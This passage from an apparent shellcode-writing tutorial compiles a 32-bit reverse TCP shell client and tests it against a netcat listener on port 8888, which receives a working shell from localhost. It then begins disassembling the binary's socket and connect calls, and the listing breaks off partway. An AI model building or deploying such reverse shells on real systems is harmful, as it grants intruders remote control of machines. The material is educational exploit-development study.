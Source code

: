 Compiling it without any optimizations and for x86:

    gcc -O0 -m32 client.c -o client

To test it we open a nc listener on port 8888:

    nc -nlvp 8888

And run:

```
$ ./client 

nc -nlvp 8888
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47896
ls
<directory listing here>
```

## Disassembling the ELF

Now lets check the result:

```
$ objdump -d ./client -M intel
...
00000690 <main>:
 690:	8d 4c 24 04          	lea    ecx,[esp+0x4]
 694:	83 e4 f0             	and    esp,0xfffffff0
 697:	ff 71 fc             	push   DWORD PTR [ecx-0x4]
 69a:	55                   	push   ebp
 69b:	89 e5                	mov    ebp,esp
 69d:	53                   	push   ebx
 69e:	51                   	push   ecx
 69f:	83 ec 20             	sub    esp,0x20
 6a2:	e8 b9 fe ff ff       	call   560 <\__x86.get_pc_thunk.bx>
 6a7:	81 c3 59 19 00 00    	add    ebx,0x1959
 6ad:	83 ec 0c             	sub    esp,0xc
 6b0:	8d 83 e0 e7 ff ff    	lea    eax,[ebx-0x1820]
 6b6:	50                   	push   eax
 6b7:	e8 34 fe ff ff       	call   4f0 <inet_addr@plt>
 6bc:	83 c4 10             	add    esp,0x10
 6bf:	89 45 e8             	mov    DWORD PTR [ebp-0x18],eax
 6c2:	66 c7 45 e4 02 00    	mov    WORD PTR [ebp-0x1c],0x2
 6c8:	83 ec 0c             	sub    esp,0xc
 6cb:	68 b8 22 00 00       	push   0x22b8
 6d0:	e8 db fd ff ff       	call   4b0 <htons@plt>
 6d5:	83 c4 10             	add    esp,0x10
 6d8:	66 89 45 e6          	mov    WORD PTR [ebp-0x1a],ax
 6dc:	83 ec 04             	sub    esp,0x4
 6df:	6a 00                	push   0x0
 6e1:	6a 01                	push   0x1
 6e3:	6a 02                	push   0x2
 6e5:	e8 f6 fd ff ff       	call   4e0 <socket@plt>
 6ea:	83 c4 10             	add    esp,0x10
 6ed:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 6f0:	83 ec 04             	sub    esp,0x4
 6f3:	6a 10                	push   0x10
 6f5:	8d 45 e4             	lea    eax,[ebp-0x1c]
 6f8:	50                   	push   eax
 6f9:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 6fc:	e8 ff fd ff ff       	call   500 <connect@plt>
 701:	83 c4 10             	add    esp,0x10
 704:	83 ec 08             	sub    esp,0x8
 707:	6a 00                	push   0x0
 709:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
```